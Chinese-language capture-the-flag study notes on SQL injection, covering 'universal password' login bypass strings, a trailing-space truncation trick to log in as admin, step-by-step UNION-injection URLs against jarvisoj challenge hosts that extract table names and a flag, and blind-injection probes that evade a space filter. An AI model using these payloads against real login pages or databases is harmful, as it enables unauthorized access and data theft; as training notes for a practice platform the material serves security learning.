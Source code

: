 
### 知识点

反引号可可以注入``

### 万能密码
select * from user where uname = '222' and upass = '222' 
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'

### SQL约束攻击
  字符串末尾的空格符将会被删除。换句话说"vampire"等同于"vampire "，构造"admin   "作为admin登录
### 注入测试 

%20就是空格

测试
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select 1 limit 1,1

数据库名

    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1,1

表名
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1,1
    # 得到所有表名 secret_flag,secret_test

列名

    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167 limit 1,1

flag
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select flagUwillNeverKnow from secret_flag limit 1,1

### sql 盲注

__知识点__

页面只返回True（密码错误）或False（用户名错误），考察SQL盲注。

解题步骤 http://web.jarvisoj.com:32787/login.php

    admin                       //尝试admin提示密码错误，其他用户名均提示用户名错误
    'or 1=1#                    //提示用户名错误，过滤了空格或or
    'or/**/1=1#                 //提示密码错误，确定过滤了空格
    'or/**/ascii(substr(database(),1,1))>1#     //提示密码错误，可以开始爆破了
    